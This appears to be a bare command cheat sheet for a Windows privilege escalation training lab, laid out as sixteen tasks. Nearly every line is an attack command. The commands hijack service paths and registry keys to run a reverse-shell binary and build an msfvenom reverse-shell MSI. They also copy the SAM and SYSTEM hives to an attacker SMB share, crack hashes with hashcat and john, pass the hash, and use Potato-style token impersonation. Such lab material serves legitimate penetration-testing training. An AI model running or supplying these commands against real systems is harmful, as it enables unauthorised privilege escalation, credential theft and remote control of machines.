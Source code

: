 # Task 1 Service Exploits - Insecure Service Permissions
```
accesschk.exe /accepteula -uwcqv user daclsvc
sc qc daclsvc
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
net start daclsvc
```

# Task 2 Service Exploits - Unquoted Service Path
```
sc qc unquotedsvc 
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" 
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net start unquotedsvc
```

# Task 3 Service Exploits - Weak Registry Permissions
```
sc qc regsvc
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
net start regsvc
```

# Task 4 Service Exploits - Insecure Service Executables
```
sc qc filepermsvc
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
net start filepermsvc
```

# Task 5 Registry - AutoRuns
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
*- REBOOT -*
rdesktop 10.10.67.19
```

# Task 6 Registry - AlwaysInstallElevated
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=53 -f msi -o reverse.msi
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

# Task 7 Passwords - Registry
```
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
winexe -U 'admin%password' //10.10.67.19 cmd.exe
```

# Task 8 Passwords - Saved Creds
```
cmdkey /list
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

# Task 9 Passwords - Security Account Manager (SAM)
```
copy C:\Windows\Repair\SAM \\10.8.59.239\kali\
copy C:\Windows\Repair\SYSTEM \\10.8.59.239\kali\
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
john --format=NT hash.txt -w=/usr/share/wordlists/rockyou.txt
```

# Task 10 Passwords - Passing the Hash
```
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::' //$IP cmd.exe
```

# Task 11 Scheduled Tasks
```
type C:\DevTools\CleanUp.ps1 
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
echo C:\PrivEsc\reverse.exe  C:\DevTools\CleanUp.ps1
```

# Task 12 Insecure GUI Apps
```
tasklist /V | findstr mspaint.exe
file://c:/windows/system32/cmd.exe
```

# Task 13 Startup Apps
```
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
cscript C:\PrivEsc\CreateShortcut.vbs
rdesktop -u admin 10.10.67.19
```

# Task 14 Token Impersonation - Rogue Potato
```
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.67.19:9999
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
```

# Task 15 Token Impersonation - PrintSpoofer
```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

# Task 16 Privilege Escalation Scripts 
```
winPEASany.exe
Seatbelt.exe
PowerUp.ps1
SharpUp.exe
nishang.ps1
```